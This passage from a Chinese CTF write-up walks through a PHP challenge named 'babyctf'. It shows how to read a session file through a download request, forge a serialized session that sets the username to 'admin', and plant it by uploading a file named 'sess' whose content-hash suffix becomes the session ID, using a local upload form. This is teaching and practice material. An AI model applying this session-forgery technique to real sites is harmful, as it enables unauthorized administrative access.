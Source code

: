 ```
session_save_path("/var/babyctf/");
session_start();
```

通过session文件的命名规则，可以推断session文件为：`/var/babyctf/sess_XXXXX(为PHPSESSID的值)`。。

我们尝试读取一下，session文件：<br>
post：

```
direction=download&amp;filename=sess_a41c14e052970b6a0af81246c69b552d
```

内容为：

```
&lt;0x08&gt;usernames:5:"guest";
```

猜测我们只要上传一个session文件内容为：

```
&lt;0x08&gt;usernames:5:"admin";
```

并且命名为：`sess_XXXXXXXXXX`，然后设置`PHPSESSID`就可以使得`$_SESSION['username'] ==='admin')`成立了。

分析上传代码发现：

[![](./img/203417/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s1.ax1x.com/2020/04/20/JMrBuj.png)

发现如果不上传`attr`参数，`dir_path`会直接拼接上传的文件名+`"_".hash_file("sha256",$_FILES['up_file']['tmp_name']);`

如果把上传文件名设置为`sess`，并且不传递`attr`参数，就可以得到`/var/babyctf/sess_XXXXXXXXX`，这就可以当成session文件。。

`hash_file("sha256",$_FILES['up_file']['tmp_name'])`，虽然`tmp_name`是不可控的随机值，但是`hash_file()`是根据文件内容得到的hash值。就是说文件内容可控，那么文件名就是可控的了。

在本地创建一个文件名为`sess`:

[![](./img/203417/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s1.ax1x.com/2020/04/20/JMrzqA.png)

在本地写一个上传页面：

```
&lt;!DOCTYPE html&gt;
&lt;html&gt;
&lt;head&gt;
    &lt;title&gt;&lt;/title&gt;
&lt;/head&gt;
&lt;body&gt;
    &lt;form action="题目地址" method="post" enctype="multipart/form-data"&gt;
        &lt;input type="text" name="attr" /&gt;
        &lt;br&gt;
        &lt;input type="text" name="direction" /&gt;
        &lt;br&gt;
        &lt;input type="file" name="up_file" /&gt;
        &lt;br&gt;
        &lt;input type="submit" /&gt;
&lt;/body&gt;
&lt;/html&gt;
```
